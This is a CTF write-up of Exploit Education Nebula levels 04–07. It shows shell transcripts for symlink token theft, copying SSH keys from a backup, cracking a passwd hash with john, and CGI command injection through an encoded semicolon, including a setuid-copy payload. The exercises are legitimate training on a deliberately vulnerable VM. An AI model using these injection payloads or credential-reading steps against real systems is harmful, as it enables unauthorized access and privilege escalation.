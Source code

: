 Title: Exploit Education - Nebula Part 2
Date: 2020-09-06
Modified: 2020-09-06
Category: Learning
Tags: ctf, exploit, nebula
Summary:

## [Level 04](https://exploit.education/nebula/level-04/)

#### Solution
Source code shows, that verification happens only for `token` name. Let's create symbolic link to file and try to read its content. After reading it, let's use it as password.

#### Result
```bash
level04@nebula:/home/flag04$ ls -la
total 13
drwxr-x--- 2 flag04 level04   93 2011-11-20 21:52 .
drwxr-xr-x 1 root   root     160 2012-08-27 07:18 ..
-rw-r--r-- 1 flag04 flag04   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag04 flag04  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04
-rw-r--r-- 1 flag04 flag04   675 2011-05-18 02:54 .profile
-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token
level04@nebula:/home/flag04$ ./flag04 token
You may not access 'token'
level04@nebula:/home/flag04$ ln -s ~flag04/token /tmp/not
level04@nebula:/home/flag04$ ./flag04 /tmp/not
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:~$ su flag04
Password:  # use token here
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## [Level 05](https://exploit.education/nebula/level-05/)

#### Solution
We're looking for weak permissions. It seems that `.backup` directory contains copy of ssh keys, which can be used.

#### Result
```bash
level05@nebula:~$ cd ~flag05
level05@nebula:/home/flag05$ ls -ahtl
total 9.0K
drwxr-x--- 1 flag05 level05   80 2020-09-05 19:18 .
-rw------- 1 flag05 flag05    20 2020-09-05 19:18 .bash_history
drwx------ 2 flag05 flag05    60 2020-09-05 19:17 .cache
drwxr-xr-x 1 root   root     200 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3.3K 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
level05@nebula:/home/flag05$ cd
level05@nebula:~$ ls ~flag05/.backup
backup-19072011.tgz
level05@nebula:~$ cp ~flag05/.backup/backup-19072011.tgz .
level05@nebula:~$ tar -xvf backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:~$ ssh flag05@localhost
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## [Level 06](https://exploit.education/nebula/level-06/)

#### Solution
The `flag06` came from a legacy unix system. It probably means, that password could be stored inside `/etc/passwd`. After retrieving password, I had to search for an answer, how to crack it. `john` helped with that.

#### Result
```bash
level06@nebula:~$ grep flag06 /etc/passwd
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
➜  ~ john --show pass
?:hello

1 password hash cracked, 0 left
level06@nebula:~$ su flag06
Password:  # use found password
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## [Level 07](https://exploit.education/nebula/level-07/)

#### Solution
User `flag07` is running CGI server, which is pinging provided host. Host is an parameter to URL. It means, we should be able to modify URL this way, to retrieve correct information.

#### Result
I struggled with that for a while.
```bash
level07@nebula:/home/flag07$ wget localhost:7007/index.cgi?Host=;getflag
--2020-09-05 20:31:46--  http://localhost:7007/index.cgi?Host=
Resolving localhost... 127.0.0.1
Connecting to localhost|127.0.0.1|:7007... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
index.cgi?Host=: Permission denied

Cannot write to `index.cgi?Host=' (Permission denied).
getflag is executing on a non-flag account, this doesn't count
```
I wasn't sure, why it is not revealing flag. Finally, I searched through an internet for similar solution and found what's my mistake. I was using `;` instead of `%3b` which is encoded semicolon. Instead of sending my payload to website, I was sending `Host=localhost` and later, I was running separate command, under my username.

Rookie error.


#### Alternative solution
After retrieving `getflag` I thought about another attempt to exploit a server. For this purpose, I used `exploit.c` prepared for another level, and I sent this query:
```bash
level07@nebula:/tmp$ cat > exploitable.sh << EOF
cp /tmp/exploit /home/flag07/exploit
chmod u+s /home/flag07/exploit
EOF
level07@nebula:/tmp$ wget localhost:7007/index.cgi?Host=%3b/tmp/exploitable.sh
level07@nebula:/tmp$ cd ~flag07
level07@nebula:/home/flag07$ ls
exploit  index.cgi  thttpd.conf
level07@nebula:/home/flag07$ ./exploit
flag07@nebula:/home/flag07$ getflag
You have successfully executed getflag on a target account
```
